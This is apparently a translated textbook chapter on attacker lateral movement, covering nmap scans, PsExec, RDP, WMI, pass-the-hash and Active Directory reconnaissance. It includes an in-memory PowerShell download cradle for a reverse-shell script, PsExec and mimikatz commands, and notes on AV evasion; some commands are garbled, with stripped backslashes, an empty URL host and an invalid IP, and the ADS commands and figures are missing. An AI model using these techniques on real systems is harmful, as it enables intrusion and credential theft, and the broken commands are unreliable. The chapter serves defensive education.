

# 横向移动  

在前几章中，讨论了攻击者用来攻破并侵入系统的工具和技术。本章将重点介绍他们在成功入侵后尝试做的主要事情：巩固并扩大他们的存在，这就是所谓的横向移动。攻击者会在初次入侵后从一台设备移动到另一台设备，期望能够访问到高价值的数据。他们还会寻找可以进一步控制受害者网络的方法。同时，他们会尽量避免触发警报或引起任何注意。攻击生命周期的这一阶段可能会持续很长时间。在高度复杂的攻击中，这一阶段可能需要几个月的时间，攻击者才能达到他们的目标设备。  

横向移动涉及扫描网络中的其他资源、收集和利用凭证，或者收集更多的信息用于数据外泄。横向移动是很难阻止的，因为组织通常在网络的多个网关设置了安全措施。因此，恶意行为仅在跨越安全区域时被检测到，而在这些区域内部则无法检测到。它是网络安全威胁生命周期中的一个重要阶段，因为它使攻击者能够获得更有害的信息和访问权限。网络安全专家表示，这是攻击过程中最关键的阶段，因为在这一阶段，攻击者会寻找资产、获取更多权限，并穿越多个系统，直到他们确认能实现他们的目标。  

本章将涵盖以下主题：  

+   渗透

+   网络映射  

+   避免警报  

+   执行横向移动  

# 渗透  

前一章讨论了黑客为获取可能允许他们进入系统的信息所做的侦察工作。外部侦察方法包括垃圾桶潜水、使用社交媒体和社交工程。垃圾桶潜水是指从组织丢弃的设备中收集有价值的数据。已经看到，社交媒体可以用来监视目标用户并获取他们可能随意发布的凭证。还讨论了多种社交工程攻击，这些攻击清楚地表明，攻击者能够强迫用户泄露登录凭证。通过使用社交工程中的六个杠杆，解释了用户为何会落入社交工程攻击的陷阱。还讨论了内部侦察技术以及用于嗅探和扫描信息的工具，这些信息可能使攻击者能够进入系统。通过这两种侦察方法，攻击者可以成功入侵系统。接下来一个重要的问题是，攻击者可以利用这种访问权限做些什么？  

# 网络映射  

在成功攻击后，攻击者会试图映射网络中的主机，以发现其中包含有价值信息的主机。有很多工具可以用来识别网络中连接的主机。最常用的工具之一是`nmap`，本节将解释该工具的映射功能。像许多其他工具一样，它会列出通过主机发现过程检测到的网络中的所有主机。这个过程通过扫描整个网络子网来启动，命令如下所示：

```
#nmap 10.168.3.1/24
```

也可以对某个特定的 IP 地址范围进行扫描，命令如下：

```
#nmap 10.250.3.1-200
```

以下是一个可以用来扫描目标上特定端口的命令：

```
#nmap -p80,23,21 192.190.3.25
```

有了这些信息，攻击者可以开始测试网络中感兴趣计算机上运行的操作系统。如果黑客能够确定目标设备上运行的操作系统及其具体版本，那么选择能够有效使用的黑客工具将变得容易。

以下是用于查找目标设备上运行的操作系统及其版本的命令：

```
#nmap -O 191.160.254.35
```

`nmap`工具具有复杂的操作系统指纹识别功能，几乎总是能够准确地告诉我们设备的操作系统类型，如路由器、工作站和服务器。

网络映射之所以可行，并且在很大程度上很容易做到，是因为在防止其发生时所面临的挑战。组织可以选择完全屏蔽其系统，以防止像`nmap`这样的扫描，但这通常是通过**网络入侵检测系统**（**NDISs**）来完成的。当黑客扫描单个目标时，他们扫描的是网络的局部段，因此可以避免通过 NDISs。为了防止扫描发生，组织可以选择部署基于主机的入侵检测系统，但大多数网络管理员不会在网络中考虑这样做，尤其是在主机数量庞大的情况下。

每个主机上增加的监控系统将导致更多的警报，并需要更多的存储容量，具体取决于组织的规模，这可能会导致数以 TB 计的数据，其中大多数是误报。这也增加了组织中安全团队的挑战，因为他们通常只有足够的资源和意志力去调查平均只有 4%的网络安全警报。不断大量检测到误报也使得安全团队不愿继续跟进网络中的威胁。

考虑到监控横向移动活动的挑战，受害组织最好的希望是基于主机的安全解决方案。然而，黑客通常会携带能够禁用或使其失效的手段。

# 避免警报

攻击者需要在这个阶段避免引起警报。如果网络管理员检测到网络上存在威胁，他们将彻底搜查并阻止攻击者所取得的任何进展。许多组织在安全系统上花费了大量资金来捕捉攻击者。安全工具越来越有效，它们可以识别许多黑客工具和恶意软件的签名。因此，这要求攻击者明智行事。攻击者使用合法工具进行横向移动的趋势已经存在。这些工具和技术是系统已知的或属于系统的，因此通常不构成威胁。因此，安全系统会忽略它们，因为它们是合法的。这些工具和技术使攻击者能够在安全网络中在安全系统的眼皮底下四处移动。

以下是攻击者如何通过使用 PowerShell 避免被检测的示例。可以看到，与其下载一个文件，被目标防病毒系统扫描， PowerShell 直接加载来自互联网的 PS1 文件而不是下载然后加载：

```
PS > IEX (New-Object Net.WebClient).DownloadString('http:///Invoke-PowerShellTcp.ps1')
```

这样的命令将防止正在下载的文件被防病毒程序标记。攻击者还可以利用 Windows NT 文件系统（NTFS）中的**备用数据流**（**ADS**）来避免警报。通过使用 ADS，攻击者可以将其文件隐藏在合法的系统文件中，这对于在系统之间移动是一个很好的策略。以下命令将 Netcat ([`github.com/diegocr/netcat`](https://github.com/diegocr/netcat)) 分叉为一个名为**计算器**（`calc.exe`）的有效 Windows 实用程序，并将文件名（`nc.exe`）更改为`svchost.exe`。这样进程名称不会引起任何警报，因为它是系统的一部分：


如果您只使用 `dir` 命令列出此文件夹中的所有文件，您将看不到该文件。但是，如果您使用 `Sysinternals` 中的 `streams` 工具，您将能够看到整个名称如下：


# 执行横向移动

横向移动可以使用不同的技术和策略进行。攻击者利用它们在网络中从一个设备移动到另一个设备。他们的目标是加强他们在网络中的存在，并访问许多设备，这些设备包含有价值的信息或用于控制诸如安全等敏感功能。在本节中，我们将介绍最常见的工具和策略。

# 端口扫描

这可能是唯一一种在黑客领域中保留下来的古老技术。它也基本保持不变，因此可以通过各种工具以相同的方式执行。端口扫描用于横向移动，目的是识别黑客可以攻击并尝试从中获取有价值数据的感兴趣系统或服务。这些系统主要是数据库服务器和 Web 应用程序。黑客已经学会了快速和全面的端口扫描很容易被检测到，因此他们使用更慢的扫描工具，可以绕过所有网络监控系统。监控系统通常配置为识别网络上的异常行为，但通过以足够慢的速度扫描，监控工具将不会检测到扫描活动。

大多数使用的扫描工具在第四章中已经讨论过，*侦察*。`nmap`工具通常是许多人的首选，因为它具有许多功能，并且始终可靠和可信赖。

在上一章，也就是第六章，*追踪用户身份*，详细介绍了`nmap`的操作方式以及它向用户提供的信息类型。默认的`nmap`扫描使用完整的 TCP 连接握手，足以找到其他黑客可以移动到的目标。以下是一些 nmap 中进行端口扫描的示例：

```
# nmap -p80 192.168.4.16
```

这个命令只是扫描目标机器 IP 为`192.168.4.16`的端口`80`是否开放：

```
# nmap -p80,23 192.1168.4.16
```

也可以通过在命令中用逗号分隔它们来检查多个端口是否开放，就像之前展示的那样。

# Sysinternals

Sysinternals 是由一家名为 Sysinternals 的公司开发的一套工具，后来被微软收购。该公司推出了一套工具，允许管理员从远程终端控制基于 Windows 的计算机。不幸的是，这套工具现在也被黑客使用。攻击者使用 Sysinternals 上传、执行和与远程主机上的可执行文件交互(1)。整个套件都是通过命令行界面工作的，可以进行脚本化。它具有隐蔽性的优势，因为在操作时不会向远程系统的用户发出警报。套件中包含的工具也被 Windows 分类为合法的系统管理员工具，因此被防病毒程序忽略。

Sysinternals 使外部参与者能够连接到远程计算机并运行命令，这些命令可以显示有关正在运行的进程的信息，并在需要时终止它们或停止服务。这个工具的简单定义已经揭示了它所拥有的巨大力量。如果被黑客使用，它可能停止组织在其计算机和服务器上部署的安全软件。Sysinternals 实用程序可以在远程计算机的后台执行许多任务，这使其对黑客比**远程桌面程序**（**RDPs**）更具适用性和实用性。Sysinternals 套件由 13 个工具组成，这些工具在远程计算机上执行不同的操作。

常用的前六个工具是：

+   `PsExec`: 用于执行进程

+   `PsFile`: 显示打开的文件

+   `PsGetSid`: 显示用户的安全标识符

+   `PsInfo`: 提供关于计算机的详细信息

+   `PsKill`: 终止进程

+   `PsList`: 列出有关进程的信息

接下来的一组工具包括：

+   `PsLoggedOn`: 列出已登录的帐户

+   `PsLogList`: 拉取事件日志

+   `PsPassword`: 用于更改密码

+   `PsPing`: 启动 ping 请求

+   `PsService`: 可以更改 Windows 服务

+   `PsShutdown`: 可以关闭计算机

+   `PsSuspend`: 可以暂停进程（1）

Sysinternals 的详尽工具列表显示它携带一些强大的工具。拥有这些工具和正确的凭据，攻击者可以快速在网络中的设备之间移动。

在列出的所有工具中，`PsExec` 是最强大的工具。它可以在本地计算机的命令提示符上运行的任何内容，在远程计算机上执行。因此，它可以更改远程计算机的注册表值，执行脚本和实用程序，并连接远程计算机到另一个计算机。这个工具的优势在于命令的输出显示在本地计算机上而不是远程计算机上。因此，即使远程计算机上有活跃用户，也不会被检测到可疑活动。`PsExec` 工具通过网络连接到远程计算机，执行一些代码，并将输出发送回本地计算机，而不会引起远程计算机用户的警报。

`PsExec` 工具的一个独特功能是它可以直接将程序复制到远程计算机上。因此，如果黑客在远程计算机上需要某个特定程序，`PsExec` 可以被命令将其临时复制到远程计算机上，并在连接终止后将其删除。

以下是如何实现这一点的示例：

```
Psexec \remotecomputername -c autorunsc.exe -accepteula
```

前一个命令将程序 `autorunsc.exe` 复制到远程计算机。命令中的 `-accepteula` 部分用于确保远程计算机接受程序可能提示的条款和条件或最终用户许可协议。

`PsExec` 工具还可以用来恶意与登录用户进行交互。这是通过像远程计算机上的记事本这样的程序来实现的。攻击者可以通过提供以下命令在远程计算机上启动 `notepad`：

```
Psexec \remotecomputername -d -i notepad 
```

`-i` 指示远程计算机启动应用程序，而 `-d` 在 `notepad` 启动完成之前将控制权交还给攻击者。

最后，`PsExec` 工具能够编辑注册表值，允许应用程序以系统权限运行，并访问通常锁定的数据。编辑注册表可能是危险的，因为它们可以直接影响计算机硬件和软件的运行。注册表损坏可能导致计算机无法正常工作。在本地计算机上，可以使用以下命令以 SYSTEM 用户级权限打开注册表，从而可以查看和更改通常隐藏的值：

```
Psexec -i -d -s regedit.exe
```

从之前的说明来看，可以说 `PsExec` 是一个非常强大的工具。以下图示展示了 `PsExec` 在 `cmd.exe` 上运行的远程终端会话，并用于查找远程计算机的网络信息：



# 文件共享

这是攻击者在已入侵的网络中常用的另一种横向移动方法。此方法的主要目的是捕获网络中大部分可用数据。文件共享是许多网络中使用的协作机制，它们允许客户端访问存储在服务器或某些计算机上的文件。有时，服务器中会包含敏感信息，如客户数据库、操作程序、软件、模板文档和公司机密。机器上的内置管理共享对于整个硬盘非常有用，因为它们允许网络上的任何人访问并读写整个硬盘。

文件共享为黑客提供了低检测概率的优势，因为这些是通常不会被监控的合法流量通道。因此，恶意攻击者将有充足的时间访问、复制甚至编辑网络中任何共享媒体的内容。也有可能在共享环境中植入其他漏洞，以感染复制文件的计算机。当黑客已经获得具有提升权限的账户时，这种技术非常有效。通过这些权限，他们可以访问大部分具有读写权限的共享数据。

以下是一些可以用来进行文件共享的 PowerShell 命令。

第一个命令将指定要共享的文件，接下来的命令将其转换为共享文件夹：

```
New_Item "D:Secretfile" -typedirectoryNew_SMBShare -Name "Secretfile" -Path "D:Secretfile"-ContinouslyAvailableFullAccess domainadminstratorgroup-changeAccess domaindepartmentusers-ReadAccess "domainauthenticated users"
```

另一种选择是使用 PowerShell 工具 Nishang（[`github.com/samratashok/nishang`](https://github.com/samratashok/nishang)）。正如我们之前提到的，你也可以在这里使用 ADS 来隐藏文件，在这种情况下，你可以使用 `Invoke-ADSBackdoor` 命令。

# 远程桌面

远程桌面是另一种合法的远程访问和控制计算机的方式，它可以被黑客滥用进行横向渗透。这一工具相比 Sysinternals 的主要优势在于，它可以提供被攻击计算机的完整交互式**图形用户界面**（**GUI**）。当黑客已经攻破网络内的计算机时，远程桌面可以被启动。只要拥有有效的凭据并且知道目标的 IP 地址或计算机名称，黑客就可以使用远程桌面进行远程访问。通过远程连接，攻击者可以窃取数据、禁用安全软件，或安装恶意软件，以便进一步控制更多机器。远程桌面已在许多实例中被用来获取对控制企业安全软件解决方案和网络监控安全系统的服务器的访问。

值得注意的是，远程桌面连接是完全加密的，因此对任何监控系统都是不透明的。因此，它们无法被安全软件标记，因为它们是 IT 工作人员常用的管理机制。

远程桌面的主要缺点是，正在远程操作计算机的用户可以察觉到外部人员何时登录到计算机。因此，攻击者通常在目标计算机或服务器上没有用户在场时使用远程桌面。夜间、周末、假期和午餐时间是常见的攻击时段，这时几乎可以肯定连接不会被注意到。此外，由于 Windows 操作系统的服务器版本通常允许多个会话同时运行，因此用户在服务器上几乎不可能察觉到 RDP 连接。

然而，有一种独特的黑客方法，使用远程桌面通过一个叫做 EsteemAudit 的漏洞进行攻击。

EsteemAudit 是黑客组织 Shadow Brokers 从 NSA 窃取的利用工具之一。早些章节中提到，同一组织发布了 NSA 的 EternalBlue 漏洞，并在 WannaCry 勒索病毒中被使用。EsteemAudit 利用了早期版本的 Windows（如 Windows XP 和 Windows Server 2003）中的远程桌面应用漏洞。受影响的 Windows 版本已不再得到微软支持，且公司并未发布补丁。然而，微软很可能会发布补丁，就像发布 EternalBlue 漏洞时，微软为所有版本发布了补丁，包括已停止支持的 Windows XP。

EsteemAudit 利用了系统堆的内部结构中的跨块堆溢出漏洞，而该堆又是 Windows 智能卡的一个组成部分。该内部结构有一个大小为 `0x80` 的缓冲区，用于存储智能卡信息。紧邻缓冲区的是两个指针。黑客发现了一个调用，可以在没有边界检查的情况下执行。这个漏洞可以用来将比 `0x80` 大的数据复制到相邻的指针，导致 `0x80` 缓冲区溢出。攻击者利用 EsteemAudit 发出导致溢出的恶意指令。攻击的最终结果是远程桌面的受损，使得未经授权的人可以访问远程计算机。缓冲区溢出被用来实现这一点。

# PowerShell

这又是一个被黑客用于恶意目的的合法 Windows 操作系统工具。在本章中，我们已经展示了多种使用合法 PowerShell 命令进行恶意任务的方式。使用这些合法工具进行攻击的普遍趋势是避免被安全软件检测到。安全公司已经追赶上大部分恶意软件并识别出它们的特征，因此黑客尽可能地尝试使用被操作系统认定为安全和合法的工具。

PowerShell 是一种内建的面向对象脚本工具，现代版本的 Windows 系统中都可用。它功能强大，可以用来窃取内存中的敏感信息，修改系统配置，并自动化设备间的移动。目前，有多个针对黑客和安全的 PowerShell 模块在使用中。最常见的模块是 **PowerSploit** 和 **Nishang**。

最近，中国黑客在美国发起的攻击事件引发了广泛关注，调查人员表示，攻击者利用了 PowerShell 的强大功能（8）。据称，这些中国黑客部署了 PowerShell 脚本，在多台 Windows 机器上以计划任务的形式运行。这些脚本通过 PowerShell 的命令行界面传递，而不是使用外部文件，从而避免了触发防病毒程序（8）。这些脚本一旦执行，就会下载一个可执行文件，并通过远程访问工具运行。这确保了没有留下任何痕迹，避免了法医调查人员的追踪，并且因为留下了最小的足迹，他们的攻击获得了成功。

# Windows 管理工具

**Windows 管理工具**（**WMI**）是微软内建的框架，用于管理 Windows 系统的配置方式。由于它是 Windows 环境中的合法框架，黑客可以在不被安全软件检测到的情况下使用它。唯一的限制是黑客必须已经获得了对该机器的访问权限。本章关于攻击策略深入探讨了黑客如何获取计算机访问权限的方法。

该框架可用于远程启动进程、进行系统信息查询，以及存储持久化恶意软件。对于横向渗透，黑客有几种方式可以利用它。他们可以使用它来支持命令行命令的运行，获取输出，修改注册表值，运行 PowerShell 脚本，接收输出，最后干扰服务的运行。

该框架还可以支持许多数据收集操作。它通常被黑客作为一个快速的系统枚举工具来快速分类目标。它可以提供黑客的信息，例如计算机的用户、计算机连接的本地和网络驱动器、IP 地址以及已安装的程序。它还具有注销用户、关闭或重启计算机的能力。它还可以根据活动日志判断某个用户是否正在使用计算机。在 2014 年索尼影业遭遇的著名黑客攻击中，WMI 发挥了关键作用，攻击者利用它来启动已经安装在组织网络中计算机上的恶意软件。

WMImplant 是一个利用 WMI 框架在目标计算机上执行恶意操作的黑客工具示例。WMImplant 设计精良，菜单与 Metasploit 的 Meterpreter 类似。

以下是该工具主菜单的图示，展示了它可以执行的操作：


从菜单中可以看出，工具非常强大。它有专门为远程机器的横向渗透设计的命令。它使黑客能够执行 `cmd` 命令，获取输出，修改注册表，运行 PowerShell 脚本，最终创建和删除服务。

WMImplant 和其他远程访问工具（如 Meterpreter）的主要区别在于，WMImplant 原生运行在 Windows 系统上，而其他工具必须先加载到计算机上。

# 计划任务

Windows 有一个命令，攻击者可以用它在本地或远程计算机上调度自动执行任务。这使得黑客可以脱离犯罪现场。因此，如果目标计算机上有用户，任务将会在不引起注意的情况下执行。计划任务不仅仅用于定时执行任务，黑客还用它们以 SYSTEM 用户权限执行任务。在 Windows 系统中，这可以被视为一次权限提升攻击，因为 SYSTEM 用户对执行计划任务的计算机拥有完全控制权限。如果没有系统权限，这种攻击是无法成功的，因为最新版本的 Windows 操作系统已经采取了防止计划任务执行这种行为的措施。

定时任务也是攻击者用来在不引起警觉的情况下长期窃取数据的工具。它们是安排可能会消耗大量 CPU 资源和网络带宽的任务的完美方式。因此，当需要压缩和通过网络传输大文件时，定时任务非常适用。任务可以设置在夜间或周末执行，这样目标计算机上就不会有用户。

# Token stealing（令牌窃取）

这是一种新技术，据报道黑客在进入网络后用于横向渗透。它非常有效，自 2014 年以来几乎所有著名的攻击事件中都使用了这一技术。该技术利用了像 Mimikatz（如第六章中提到的，*追踪用户身份*）和 Windows 凭证编辑器等工具，在计算机的内存中查找用户帐户。然后，攻击者可以利用这些帐户创建 Kerberos 票证，从而将普通用户提升为域管理员。然而，要实现这一点，必须在内存中找到带有域管理员权限的现有令牌或域管理员用户帐户。使用这些工具的另一个挑战是，它们可能会因执行可疑操作而被杀毒软件检测到。然而，正如大多数工具的情况一样，攻击者正在不断改进这些工具，创建完全不可检测的版本。其他攻击者还使用 PowerShell 等工具来避免被检测到。尽管如此，这种技术依然构成了一个巨大威胁，因为它能非常快速地提升用户权限。它还可以与能够阻止杀毒软件的工具协作，完全避免被检测到。

# Pass-the-hash（哈希传递攻击）

如前一章所述，这是黑客正在使用的策略，利用 NTLM 协议的工作原理。攻击者不是通过暴力破解系统或使用字典攻击，而是使用密码哈希。因此，他们并不寻求明文密码，而是仅在要求进行远程计算机身份验证时，使用密码哈希。因此，攻击者正在寻找计算机中的密码哈希，然后将这些哈希传递给需要身份验证的服务。

除了第六章中给出的示例，*追踪用户身份*，你还可以使用 PowerShell 工具 Nishang 通过`Get-PassHashes`命令提取所有本地帐户的密码哈希。

# Active Directory（活动目录）

这是获取连接到域网络的设备信息的最丰富来源。它还可以为系统管理员提供对这些设备的控制。它可以被看作是任何网络的电话簿，存储着黑客可能在网络中寻找的所有有价值的信息。**活动目录**（**AD**）具有如此多的功能，以至于黑客一旦突破网络，就会不遗余力地去攻破它。网络扫描器、内部威胁和远程访问工具可以被用来为黑客提供对 AD 的访问。

AD 存储了网络中用户的姓名以及他们在组织中的角色。该目录允许管理员更改网络中任何用户的密码。这是黑客以最小的努力获得网络中其他计算机访问权限的非常简单的方法。AD 还允许管理员更改用户的权限，因此黑客可以利用这一点将某些账户提升为域管理员。黑客可以从 AD 做很多事情。因此，它是攻击的关键目标，也是组织努力保护充当该角色的服务器的原因。

默认情况下，属于 AD 域的 Windows 系统会使用 Kerberos 进行身份验证。还有许多服务会在 AD 上注册以获取其**服务主体名称**（**SPN**）。根据红队的策略，攻击 AD 的第一步是对环境进行侦察，这可以通过仅收集域中的基本信息开始。一种不引起注意的方法是使用 PyroTek3 提供的 PowerShell 脚本（[`github.com/PyroTek3/PowerShell-AD-Recon`](https://github.com/PyroTek3/PowerShell-AD-Recon)）。

对于这些基本信息，你可以使用以下命令：

```
Get-PSADForestInfo
```

下一步可能是找出哪些 SPN 可用。要获取 AD 中的所有 SPN，你可以使用以下命令：

```
Discover-PSInterestingServices -GetAllForestSPNs
```

这将为你提供大量可以继续攻击的信息。如果你只想知道当前配置了 SPN 的服务账户，你也可以使用以下命令：

```
Find-PSServiceAccounts -Forest
```

你还可以利用`mimikatz`通过以下命令获取关于 Kerberos 票证的信息：

```
mimikatz # kerberos::list
```

另一种方法是通过利用 MS14-068 (9) 漏洞攻击 AD。尽管这个漏洞较老（2014 年 11 月），但它非常强大，因为它允许具有有效域账户的用户通过创建伪造的**特权账户证书**（**PAC**），其中包含管理员账户的成员资格，并将其嵌入到发送给**密钥分发中心**（**KDC**）的票证请求（`TG_REQ`）中，从而获得管理员权限。

# 远程注册表

Windows 操作系统的核心是注册表，因为它控制着计算机的硬件和软件。注册表通常作为其他横向移动技术和战术的一部分使用。如果攻击者已经远程访问了目标计算机，注册表也可以作为一种技术来使用。可以远程编辑注册表以禁用保护机制、禁用自动启动程序（如防病毒软件），并安装支持恶意软件不间断存在的配置。黑客可以通过多种方式远程访问计算机并编辑注册表，其中一些方法已被讨论过。

以下是黑客过程中使用的注册表技术之一：

```
HKLMSystemCurrentControlSetServices
```

这是 Windows 存储关于计算机上安装的驱动程序信息的地方。驱动程序通常在初始化时从这个路径请求其全局数据。然而，有时恶意软件会被设计成安装在这个目录树中，从而使其几乎无法被检测到。黑客会以服务/驱动程序的形式启动它，并赋予管理员权限。由于它已经存在于注册表中，它大多数情况下会被认为是一个合法的服务。它还可以设置为在启动时自动启动。

# 被攻破主机分析

这可能是所有横向移动技术中最简单的一种。它发生在攻击者已经获得计算机访问权限之后。攻击者会在被攻破的计算机上查找任何可以帮助他/她进一步进行攻击的信息。这些信息包括浏览器中存储的密码、文本文件中存储的密码、日志以及被攻破用户的屏幕截图，甚至包括组织内部网络中的任何详细信息。有时，访问高层员工的计算机可以为黑客提供大量内部信息，包括组织政治。对这样一台计算机的分析可以为对组织进行更具破坏性的攻击奠定基础。

# 中央管理员控制台

一些决心坚定的攻击者希望穿越网络时，目标是中央管理员控制台，而非单个用户。从控制台控制一个感兴趣的设备比每次都要入侵它要容易得多。这也是为什么 ATM 控制器、POS 管理系统、网络管理工具和活动目录是黑客的主要目标。一旦黑客获得了这些控制台的访问权限，就很难将它们移除，同时他们可以造成更多的损害。这种访问方式使得他们突破了安全系统，甚至可以限制组织网络管理员的行动。

# 邮箱掠夺

组织中的大量敏感信息存储在员工之间的邮件通讯中。因此，单个用户的电子邮件收件箱对黑客来说是一次幸运的机会。通过电子邮件，黑客可以收集有关个人用户的信息，并将其用于针对特定目标的钓鱼攻击。**鱼叉式钓鱼**攻击是针对特定人的定制化钓鱼攻击，正如在第四章中讨论的那样，*侦察*。访问电子邮件还使黑客能够调整他们的攻击策略。如果触发了警报，系统管理员通常会通过电子邮件向用户通报事件响应流程和应采取的预防措施。这些信息可能正是黑客所需的，帮助他们根据情况调整攻击策略。

# 参考文献

1.  L. Heddings，*使用 PsTools 从命令行控制其他计算机*，*Howtogeek.com*，2017 年。[在线]. 可用链接：[`www.howtogeek.com/school/sysinternals-pro/lesson8/all/`](https://www.howtogeek.com/school/sysinternals-pro/lesson8/all/)。[访问日期：2017 年 8 月 13 日]。

1.  C. Sanders，*PsExec 和它可以做的恶性操作 - TechGenix*，Techgenix.com，2017 年。[在线]. 可用链接：[`techgenix.com/psexec-nasty-things-it-can-do/`](http://techgenix.com/psexec-nasty-things-it-can-do/)。[访问日期：2017 年 8 月 13 日]。

1.  D. FitzGerald，*你安全摄像头内部的黑客*，《华尔街日报》，2017 年。可用链接：[`search.proquest.com/docview/1879002052?accountid=45049`](https://search.proquest.com/docview/1879002052?accountid=45049)。

1.  S. Metcalf，*使用 PowerShell 进行黑客攻击 - Active Directory 安全性*，Adsecurity.org，2017 年。[在线]. 可用链接：[`adsecurity.org/?p=208`](https://adsecurity.org/?p=208)。[访问日期：2017 年 8 月 13 日]。

1.  A. Hesseldahl，*索尼黑客攻击中使用的恶意软件细节曝光*，《Recode》，2017 年。[在线]. 可用链接：[`www.recode.net/2014/12/2/11633426/details-emerge-on-malware-used-in-sony-hacking-attack`](https://www.recode.net/2014/12/2/11633426/details-emerge-on-malware-used-in-sony-hacking-attack)。[访问日期：2017 年 8 月 13 日]。

1.  *隐身模式的乐趣 - Metasploit Unleashed*，Offensive-security.com，2017 年。[在线]. 可用链接：[`www.offensive-security.com/metasploit-unleashed/fun-incognito/`](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)。[访问日期：2017 年 8 月 13 日]。

1.  A. Hasayen，*Pass-the-Hash 攻击*，Ammar Hasayen，2017 年。[在线]. 可用链接：[`ammarhasayen.com/2014/06/04/pass-the-hash-attack-compromise-whole-corporate-networks/`](https://ammarhasayen.com/2014/06/04/pass-the-hash-attack-compromise-whole-corporate-networks/)。[访问日期：2017 年 8 月 13 日]。

1.  S. Metcalf，*使用 PowerShell 进行黑客攻击 - Active Directory 安全性*，Adsecurity.org，2018 年。[在线]. 可用链接：[`adsecurity.org/?p=208`](https://adsecurity.org/?p=208)。[访问日期：2018 年 1 月 1 日]。

1.  *Microsoft 安全公告 MS14-068 - 严重漏洞*，Docs.microsoft.com，2018 年。[在线]。可用链接：[`docs.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-068`](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-068)。[访问日期：2018 年 1 月 1 日]。

# 总结

本章讨论了攻击者如何利用合法工具在网络中进行横向移动。某些工具非常强大，因此它们通常是攻击的主要目标。本章揭示了攻击者利用的可利用路径，这些路径曾被攻击者用来在组织内部外部穿梭。横向移动阶段被认为是最长的阶段，因为黑客通常需要花费大量时间在整个网络中进行横向渗透。

在这个阶段，几乎无法阻止黑客进一步危害受害者的系统。受害者的命运几乎总是已经注定，正如下一章所展示的那样。该章节将探讨权限提升问题，并重点关注攻击者如何提升他们已侵入账户的权限。它将讨论权限提升的两种类别：垂直提升和水平提升。将会广泛讨论这两种提升方式的实施方法。
